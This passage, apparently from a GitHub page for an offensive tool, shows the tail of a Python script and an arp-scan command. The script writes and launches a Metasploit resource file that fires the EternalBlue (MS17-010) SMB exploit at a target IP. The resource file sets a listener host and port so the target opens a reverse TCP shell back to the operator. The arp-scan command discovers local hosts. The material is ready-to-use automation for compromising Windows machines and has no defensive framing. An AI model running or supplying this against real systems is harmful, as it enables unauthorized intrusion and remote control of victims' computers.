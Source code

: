 ```python
            lport = input("Enter the LPORT for reverse TCP connection: ")

            # Create Metasploit config script
            msf6_rc = f"{scan_name}.rc"
            with open(msf6_rc, "w") as file:
                file.write("use exploit/windows/smb/ms17_010_eternalblue\n")
                file.write("show options\n")
                file.write(f"set rhost {ip_address}\n")
                file.write(f"set lhost {lhost}\n")
                file.write(f"set lport {lport}\n")
                file.write("clear\n")
                file.write("show options\n")
                file.write("sleep 5\n")
                file.write("clear\n")
                file.write("exploit\n")

            print(f"Metasploit Auto-script is created =>=> {msf6_rc}")
            print("Starting msfconsole....")
            subprocess.run(["msfconsole", "-q", "-r", msf6_rc])
        else:
            print("MS17-010 vulnerability NOT detected, No Further action...")
            print("exiting...!")
    else:
        print("Port 445 is CLOSED...")
        print("Skipping Vulnerability scan...!")

if __name__ == "__main__":
    main()
```




## arp scan
- ```sudo arp-scan -l -I eth0```
